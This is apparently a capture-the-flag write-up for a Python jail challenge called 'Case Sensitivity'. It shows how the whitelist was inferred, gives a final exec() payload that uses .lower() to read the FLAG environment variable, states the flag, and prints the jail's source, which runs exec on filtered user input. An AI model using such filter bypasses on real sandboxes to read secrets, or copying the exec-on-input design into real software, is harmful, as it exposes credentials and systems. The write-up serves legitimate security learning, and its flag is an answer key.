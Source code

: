## Case Sensitivity

**Author**: Guitaristsam

**Category**: Misc

**Difficulty**: Medium

## Description

You step into a constricted floor where every movement and operation is limited. Commands are few, space is tight, and options are restricted.        
    
A guardian looms over the floor, its body shifting like liquid metal, enforcing these constraints. It watches your every move, daring you to make do with what you have and uncover the passcode to the next floor despite the restrictions.    



## Writeup

When you connect to the nc you get:
```bash
Ha, I bet you can't find what "FLAG" is in this shitty python interpreter.
What could you possibly even do here?

>>>
```

The word `"FLAG"` is an immediately hint        

Trying basic commands give us this:
```bash
>>> cat flag
cat flag

ERROR:
Traceback (most recent call last):
  File "/chall", line 23, in <module>
    exec('from os import *; ' + clean(user_input))
                                ^^^^^^^^^^^^^^^^^
  File "/chall", line 15, in clean
    raise ValueError(f"NUH UH, {word} is not allowed!{although}")
ValueError: NUH UH, cat is not allowed!
```
    
This helps in realising that it is a Pyjail with a Whitelist     

Trying basic commands like `print` we get:    
```bash
>>> print
print

ERROR:
Traceback (most recent call last):
  File "/chall", line 23, in <module>
    exec('from os import *; ' + clean(user_input))
                                ^^^^^^^^^^^^^^^^^
  File "/chall", line 15, in clean
    raise ValueError(f"NUH UH, {word} is not allowed!{although}")
ValueError: NUH UH, print is not allowed! (although print is very close)
```

We got `ValueError: NUH UH, print is not allowed! (although print is very close)`, which means that we're doing something right.

Also this line => `exec('from os import *; ' + clean(user_input))`, we can see that something is being imported, combining that with our knowledge of `"FLAG"`, we know that it is an environment variable.        

Trying `environ` also gives us:        
```bash
>>> environ
environ

ERROR:
Traceback (most recent call last):
  File "/chall", line 23, in <module>
    exec('from os import *; ' + clean(user_input))
                                ^^^^^^^^^^^^^^^^^
  File "/chall", line 15, in clean
    raise ValueError(f"NUH UH, {word} is not allowed!{although}")
ValueError: NUH UH, environ is not allowed! (although environ is very close)
```        
        
By now we know that the whitelist will have something related to `environ`,`FLAG` and `print`.        

Trying more commands we can figure out that `exec` also works:    
```bash
>>> exec
exec
```    

So now we know that `whitelist=["FLAG","exec",somethingrelatedto(print),somethingrelatedto(environ),...,...]`     

Seeing this and the fact that the challenge is called `Case Sensitivity`, the challenger will try:
```bash
>>> PRINT
PRINT

ERROR:
Traceback (most recent call last):
  File "/chall", line 23, in <module>
    exec('from os import *; ' + clean(user_input))
  File "<string>", line 1, in <module>
NameError: name 'PRINT' is not defined

>>> ENVIRON
ENVIRON

ERROR:
Traceback (most recent call last):
  File "/chall", line 23, in <module>
    exec('from os import *; ' + clean(user_input))
  File "<string>", line 1, in <module>
NameError: name 'ENVIRON' is not defined
```
now looking that the output we can see that it is `NameError: name 'XXXX' is not defined` and not `ValueError: NUH UH, 'XXXX' is not allowed!`                
        
So now we know that : `whitelist=["FLAG","exec",PRINT,ENVIRON,...,...]`

So now we have to figure out how we can use `exec` to craft a payload that somehow gives us the `ENVIRON` variable `"FLAG"`.        
                        
Using this knowlenge the challenger will figures out the word : `lower`.

So the final whitelist will become: `whitelist = ["PRINT", "ENVIRON", "FLAG", "lower", 'exec']`        

Now it's just a matter of making the payload, the challenger can either do :  **`exec("PRINT(ENVIRON".lower() + "['FLAG'])")`** or **`exec("PRINT(ENVIRON".lower() + ")")`**

Final Exploit:
```bash
Ha, I bet you can't find what "FLAG" is in this shitty python interpreter.
What could you possibly even do here?

>>> exec("PRINT(ENVIRON".lower() + "['FLAG'])")
exec("PRINT(ENVIRON".lower() + "['FLAG'])")
citadel{d34th_d035_n07_fr33_y0u_fr0m_7h3_gu17ar15t}
```        

**Flag**: `citadel{d34th_d035_n07_fr33_y0u_fr0m_7h3_gu17ar15t}`            




    
To understand how this works you can look behind the hood:        
```python
import traceback
import re
import sys
sys.stderr = sys.stdout

allowed_words = ["PRINT", "ENVIRON", "FLAG", "lower", 'exec']

def clean(code):
    words = re.findall(r'\b[A-Za-z_][A-Za-z0-9_]*\b', code)
    although = ''
    for word in words:
        if word not in allowed_words:
            if word.upper() in allowed_words:
                although = f" (although {word} is very close)"
            raise ValueError(f"NUH UH, {word} is not allowed!{although}")
    return code

print("Ha, I bet you can't find what \"FLAG\" is in this shitty python interpreter.\nWhat could you possibly even do here?\n")

while True:
    try:
        user_input = input(">>> ")
        exec('from os import *; ' + clean(user_input))
    except Exception as e:
        print("\nERROR: ")
        traceback.print_exception(e)
        print()
```       
